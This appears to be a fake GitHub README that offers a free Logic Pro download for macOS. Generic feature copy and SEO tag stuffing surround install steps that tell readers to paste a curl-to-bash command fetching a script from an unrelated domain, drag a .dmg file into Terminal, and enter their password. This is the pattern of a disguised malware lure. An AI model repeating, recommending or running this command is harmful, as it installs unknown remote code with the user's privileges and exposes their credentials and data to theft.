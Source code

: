 # 🎵 Logic Pro — Professional Music Production Studio for macOS

**Logic Pro** is Apple’s industry-standard digital audio workstation (DAW) for macOS, offering professional-grade tools for recording, editing, mixing, and mastering audio. Whether you're producing music, scoring for film, or editing podcasts, Logic Pro delivers powerful features and seamless macOS integration.

With a vast sound library, MIDI sequencing, software instruments, and support for Dolby Atmos, Logic Pro is the ultimate solution for musicians, composers, and audio engineers using Mac.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download Logic Pro for macOS  
[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 📦 What is Logic Pro?

Logic Pro is a full-featured music production suite developed by Apple for macOS users. It combines a professional mixing console, multitrack recording, software synthesizers, audio editing tools, and MIDI support in one cohesive and intuitive interface. Designed to take full advantage of Apple hardware, Logic Pro offers blazing-fast performance on Macs — especially those powered by Apple Silicon.

---

## ✨ Features

- 🎚️ **Multitrack Recording & Mixing** with powerful automation tools  
- 🎹 Huge library of software instruments, loops, and samples  
- 🥁 Drum Machine Designer and Live Loops for dynamic composition  
- 🔊 Dolby Atmos & Spatial Audio support for immersive sound  
- 🧠 Smart Tempo for flexible tempo management  
- 🖥️ Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🧩 Full MIDI sequencing and advanced notation editor  
- 🎛️ Support for AU plug-ins and third-party hardware integration  

---

## 💡 Why Use Logic Pro?

- 🎵 Industry-standard DAW trusted by professionals worldwide  
- 🧰 All-in-one solution: compose, record, edit, mix, and master  
- ⚡ Lightning-fast performance on modern Mac systems  
- 📱 Wireless control via Logic Remote on iPad or iPhone  
- 🧑‍🎤 Perfect for solo artists, studios, sound designers, and educators  

---

[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Logic Pro Screenshot 1](https://i.pcmag.com/imagery/reviews/00KRt5ZMUqaFDOATGEVUW4t-55..v1715532643.jpg)  
![Logic Pro Screenshot 2](https://dt7v1i9vyp3mf.cloudfront.net/styles/news_large/s3/imagelibrary/A/AppleLogic105_01-hLtOcjY0kB2TSFT30dII33WXL4f2TORL.jpg)

---

## 📌 Tags

apple logicpro, logic pro mac, logic pro x mac, logic pro for students, daw logic pro x,  
logic pro macbook, logic pro macbook air, logic pro on mac, mac with logic pro,  
macbook air and logic pro, macbook air with logic pro, macbook pro for logic,  
price logic pro x, logic for mac, logic pro x mac download, logic pro download for mac,  
macbook with logic pro x, macbook pro with logic pro x, logic pro app, logic pro 10.6 download,  
logic pro 10.8, logic macbook, macbook pro logic pro, logic pro x for sale,  
logic mac download, logic software mac, logic pro mac download

